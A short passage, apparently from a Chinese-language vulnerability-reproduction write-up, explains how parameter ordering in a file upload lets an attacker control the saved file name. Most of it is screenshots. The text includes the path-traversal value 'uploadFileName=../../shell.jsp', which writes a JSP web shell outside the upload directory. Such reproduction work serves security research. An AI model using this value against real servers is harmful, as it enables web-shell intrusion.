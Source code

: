 [![](assets/1702520988-7b840221c5f0d1fc9762f045612f2ff8.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231211163203-c28dfbd6-97ff-1.png)  
具体第二张图具体做的就是对 Caption 参数进行限制，避免长度超出

## 最终构造和细说（漏洞复现）

构造方式：  
[![](assets/1702520988-2ff819a8481fdd00511b63d333fb2f6e.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231212110533-50b75bc8-989b-1.png)  
先 Upload 在最前面，优先被处理后，再通过 uploadFileName 来设置路径和文件名，最后会变成的部分是  
{Upload=File{name='Upload'},  
UploadFileName=File{name='UploadFileName'},  
uploadFileName=../../shell.jsp,  
UploadContentType=File{name='UploadContentType'}}  
回到被创建的地方是：D:\\uploads\\a\\../../shell.jsp  